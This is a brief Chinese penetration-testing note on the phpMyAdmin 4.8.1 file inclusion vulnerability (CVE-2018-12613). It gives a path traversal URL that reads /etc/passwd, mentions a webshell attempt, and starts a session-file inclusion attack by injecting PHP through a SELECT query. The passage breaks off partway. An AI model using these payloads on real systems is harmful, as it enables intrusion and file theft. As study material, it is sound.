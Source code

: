 ------

## PhpMyAdmin（4.8.1文件包含漏洞）

[渗透测试-PhpMyAdmin后台文件包含漏洞](https://blog.csdn.net/weixin_39190897/article/details/99078864)

版本4.8.1：

![img](assets/1695034916165-fb979d94-e324-45a5-b9db-0dc77babf3db.png)
上来先试一下写入一句话，开启全局日志写路径getshell，返回权限错误

找到phpmyadmin 4.8.1 (CVE-2018-12613)

测试漏洞 访问：

/index.php?target=db_sql.php?/../../../../../../../../etc/passwd

![img](assets/1695034916175-be6c98f0-8de6-44ac-b488-7947180d1f52.png)
原理：

每次登录phpmyadmin系统的时候，系统就会产生一个 sess_sessionID 文件，然后在里面执行的操作，会被记录到这个文件内（UNIX系统中存放路径为 /tmp/sess_[当前会话session值]）。

利用：
执行 select ' <?php phpinfo() ?> 命令，查看当前页面 cookie值：phpMyAdmin:cookie

